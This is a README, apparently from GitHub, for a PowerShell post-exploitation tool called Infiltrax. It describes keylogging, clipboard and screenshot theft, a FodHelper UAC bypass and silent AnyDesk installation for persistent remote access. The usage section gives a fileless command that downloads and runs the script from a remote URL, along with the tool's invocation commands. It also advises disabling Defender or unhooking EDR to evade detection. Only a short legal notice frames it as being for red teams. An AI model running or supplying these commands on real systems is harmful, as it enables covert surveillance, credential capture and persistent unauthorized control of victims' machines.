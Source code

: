# Infiltrax
Infiltrax is a post-exploitation reconnaissance tool for penetration testers and red teams, designed to capture screenshots, retrieve clipboard contents, log keystrokes, bypass UAC and install AnyDesk for persistent remote access.

![Infiltrax](https://raw.githubusercontent.com/alexdhital/Infiltrax/main/usage.gif)

## Features

- **Screenshot Capture**: Take screenshots of the entire screen and save them as PNG files.
- **Clipboard Retrieval**: Access the current clipboard contents.
- **Keystroke Logging**: Record keystrokes for a specified duration.
- **AnyDesk Installation**: Install and configure AnyDesk with unattended access.

## Usage
1. **Execute directly into memory**
```powershell
C:\Users\Administrator\Desktop> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/alexdhital/Infiltrax/main/Infiltrax.ps1')
```
2. **Get Clipboard contents**
```powershell
C:\Users\Administrator\Desktop> Invoke-Clipboard
```
3. **Take desktop screenshot and save into certain location**
```powershell
C:\Users\Administrator\Desktop> Invoke-Screenshot -Path "C:\Windows\Tasks\"
```
4. **Capture user keystrokes and save in a file**
```powershell
C:\Users\Administrator\Desktop> Invoke-KeyStrokeCapture -DurationInSeconds 30 -OutputPath C:\Windows\Tasks\keystrokes.txt
```
5. **Bypass UAC to run any program in elevated context. Default program powershell.exe**

This function is taken from https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692 all credit goes to netbiosX :). Spawnning cmd.exe or powersell.exe from script gets caught by behavioural detection disable defender or unhook EDR first.
```powershell
C:\Users\Vlex\Desktop> Invoke-FodHelperBypass -program "calc.exe"
```
6. **Installs anydesk silently, sets up unattended access and gets remote id** (Requires Administrative Privilege)
```powershell
C:\Users\Administrator\Desktop> Invoke-AnyDeskInstall -InstallPath "C:\Users\Alex\AppData\Local\AnyDesk" -Password "Unattended123!" 
```
## Warning and Legal Notice
This tool is intended solely for use by penetration testers and red team professionals during authorized engagements during post exploitation. Do not use this tool for unauthorized access or illegal activities.
